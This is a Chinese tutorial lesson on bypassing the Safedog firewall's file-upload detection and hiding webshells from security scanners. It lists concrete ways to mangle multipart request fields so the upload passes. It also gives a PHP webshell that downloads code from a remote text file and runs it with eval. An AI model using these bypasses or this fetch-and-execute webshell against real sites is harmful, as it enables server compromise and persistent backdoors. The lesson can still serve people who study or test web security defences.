


# 课程 P1：安全狗上传绕过与Webshell免杀 🛡️➡️🚀

在本节课中，我们将要学习如何绕过安全狗（一款安全防护软件）对文件上传的检测，并了解一种基础的Webshell免杀思路。课程内容基于对HTTP上传请求数据包的修改，旨在帮助初学者理解基本的绕过原理。



## 概述 📋

我们将首先分析一个标准的HTTP文件上传请求数据包，理解其中各个关键字段的含义。然后，我们会学习多种通过修改这些字段来绕过安全狗检测的具体方法。最后，我们会简要介绍一种利用PHP函数实现Webshell免杀的思路。

## HTTP文件上传请求分析 🔍

首先，我们来看一个用于文件上传的HTTP POST请求数据包。理解其结构是后续进行绕过操作的基础。

以下是数据包的关键行及其解释：

*   **请求行**：`POST /upload.php` 表示这是一个向`upload.php`页面提交数据的POST请求。
*   **Host**：`Host: 127.0.0.1` 指定了目标服务器的主机地址。
*   **Content-Length**：`Content-Length: 1234` 声明了请求体（Body）的字节长度。
*   **Cache-Control**：`Cache-Control: max-age=0` 指示缓存机制在整个请求/响应链中必须遵守的指令。
*   **Accept**：`Accept: text/html,application/xhtml+xml,...` 告诉服务器客户端能够接收的文档类型。
*   **Origin**：`Origin: http://127.0.0.1` 指示请求的来源页面地址。
*   **Upgrade-Insecure-Requests**：`Upgrade-Insecure-Requests: 1` 用于将HTTP连接升级到HTTPS，此处无需深究。
*   **User-Agent**：`User-Agent: Mozilla/5.0...` 是一个特殊字符串头，使服务器能识别客户端的操作系统、浏览器版本等信息。
*   **Content-Type**：`Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...` 定义了网络文件的类型和编码，决定了服务器如何读取文件。对于文件上传，通常是`multipart/form-data`。
*   **Referer**：`Referer: http://127.0.0.1/upload.html` 表示当前请求是从哪个页面链接过来的。
*   **Accept-Encoding**：`Accept-Encoding: gzip, deflate` 声明浏览器支持的压缩编码类型。
*   **Accept-Language**：`Accept-Language: zh-CN,zh;q=0.9` 声明浏览器支持的语言类型。
*   **Cookie**：`Cookie: safedog-flow-item=...` 包含了在本地安全狗环境下相关的Cookie信息。

一个完整的请求体（Body）可能如下所示，它包含了要上传的文件名（如`shell.php`）和文件内容（如`<?php phpinfo();?>`）。

```
------WebKitFormBoundaryABC123
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryABC123--
```

## 绕过安全狗上传检测的思路 💡

上一节我们分析了标准的上传请求，本节中我们来看看如何修改它以绕过检测。主要思路可以分为两大类：**扰乱请求编码/格式**和**替换字符大小写**。我们将重点讲解第一类方法下的几种具体操作。

以下是几种扰乱编码/格式的具体方法：

1.  **修改分隔符**：在`form-data`等字段的分隔符后添加特殊字符，例如波浪号`~`。
    *   **示例**：将 `form-data` 改为 `form~data`。
2.  **替换大小写**：对`Content-Disposition`、`form-data`、`Content-Type`等字段中的字母进行大小写替换。
    *   **示例**：将 `Content-Disposition` 改为 `content-Disposition`，或将 `form-data` 改为 `Form-data`。
3.  **增减空格**：在`Content-Disposition`、`form-data`、`Content-Type`等字段的关键位置增加或减少空格。
    *   **示例**：将 `form-data` 改为 `form- data`（增加空格）或 `formdata`（减少空格）。注意，某些位置可能只支持减少空格。
4.  **添加加号**：在`form-data`字段的字母后添加加号`+`。
    *   **示例**：将 `form-data` 改为 `for+m-data` 或 `form-dat+a`。
5.  **替换整个字段**：使用星号`*`等字符直接替换`form-data`字段。
    *   **示例**：将 `form-data` 改为 `*`。
6.  **修改文件名格式**：去掉`filename`值的引号，并在后面添加分号。
    *   **示例**：将 `filename="shell.php"` 改为 `filename=shell.php;`。

**核心原理**：以上方法的本质，是通过各种非常规的修改，扰乱安全狗对标准HTTP上传请求包的识别和解析，从而使其检测规则失效。你可以尝试任何你能想到的替换和变形方式。

> **注意**：部分历史方法（如“双文件上传”漏洞）可能已被修复，实际测试时需要验证其有效性。

## Webshell免杀基础思路 🐚

在成功上传文件后，我们还需要确保上传的Webshell（恶意脚本）本身不被安全软件查杀。本节我们来看一种基础的免杀思路：避免使用敏感函数名。

安全狗通常会拦截包含`eval`、`assert`、`system`等关键字的PHP代码。因此，免杀的一种思路是使用其他不被拦截的函数来执行代码或命令。

这里介绍使用`file_get_contents`函数的方法。该函数用于将整个文件读入一个字符串，如果参数是一个URL，则可以远程读取文件内容。

**代码示例**：
```php
<?php
$pass = “your_password”; // 连接密码
$url = ‘http://127.0.0.1/cmd.txt’; // 远程存放命令的文本文件地址
$code = file_get_contents($url); // 读取远程文件内容
eval($code); // 执行读取到的代码
?>
```
**思路解释**：
1.  将真正的恶意PHP代码（例如包含`system`命令的代码）写入一个远程服务器上的`.txt`文本文件中。
2.  上传的Webshell只包含`file_get_contents`和`eval`函数，用于读取并执行那个远程`txt`文件中的内容。
3.  由于Webshell本身不直接出现`system`等关键字，可能绕过检测。

另一种类似的方法是使用`create_function`函数来动态创建并执行函数。但需注意，部分安全软件也可能对此进行拦截。

## 总结 🎯

本节课中我们一起学习了绕过安全狗上传检测的多种方法，其核心在于**修改HTTP请求头及请求体中的特定字段**，通过扰乱编码、大小写替换、增减空格等技巧来绕过规则匹配。同时，我们也了解了基础的Webshell免杀思路，即**避免在Webshell代码中直接使用会被拦截的敏感函数名**，转而利用其他函数间接执行恶意代码。




这些方法展示了安全防护与绕过之间“道高一尺，魔高一丈”的持续对抗。理解这些基础原理有助于更好地认识Web应用安全。